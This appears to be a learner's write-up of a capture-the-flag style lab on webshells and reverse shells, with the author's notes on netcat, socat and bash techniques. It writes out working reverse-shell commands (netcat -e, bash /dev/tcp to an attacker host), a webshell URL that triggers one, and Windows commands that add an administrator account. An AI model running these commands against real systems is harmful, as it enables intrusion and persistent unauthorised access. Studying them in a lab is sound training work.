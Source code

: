 Check out /usr/share/webshells on Kali Linux for some example webshells. In general, the most capable webshells only work on UNIX-like systems. For Windows systems, webshells are normally only a stepping stone to a normal reverse shell.

## Next Steps

Adding a user on Windows (once you have access to SYSTEM or an administrator account):

```
net user $USERNAME $PASSWORD /add
net localgroup administrators $USERNAME /add
```

In general, you don’t want to stay in reverse-shell land any longer than you have to.

## Linux Practice Box

> Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

Use /usr/share/webshells/php/simple-backdoor.php, and then go to this URL: `http://10.10.106.112/uploads/simple-backdoor.php?cmd=nc%20<IP>%20<PORT>%20-e%20/bin/bash` (where I’m redacting my `<IP>` and `<PORT>`).

> Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali Linux and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

Much more comfy. I hadn’t realized before how much nicer this reverse shell is than what we typically use.

Also, one big reason to want to “stabilize” a reverse shell - to get tab completion!

> Log into the Linux machine over SSH using the provided credentials. Use the `mkfifo` method to experiment with bind and reverse netcat shells.

Remember, `-l` and `-p` are for _listners_!

> Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

Okay, the auto-stabilized socat shells are pretty freakin’ cool.

…Also, I’m really not sure why socat’s syntax is considered that much harder. It’s pretty readable.

> Look through PayloadsAllTheThings and try some of the other reverse shell techniques. Try to analyze them and see _why_ they work.

If you have access to bash with the virtual /dev/tcp device (this actually live in bash, not in /dev) then this is a pretty handy reverse shell:

```
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with netcat or socat.

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I _think_ what’s happening here is that /dev/tcp is bidirectional “out of the box” - incoming data comes out, just as outgoing data goes in - so binding all three “core” file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means “bind file descriptor X to file descriptor Y”, and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what’s happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)
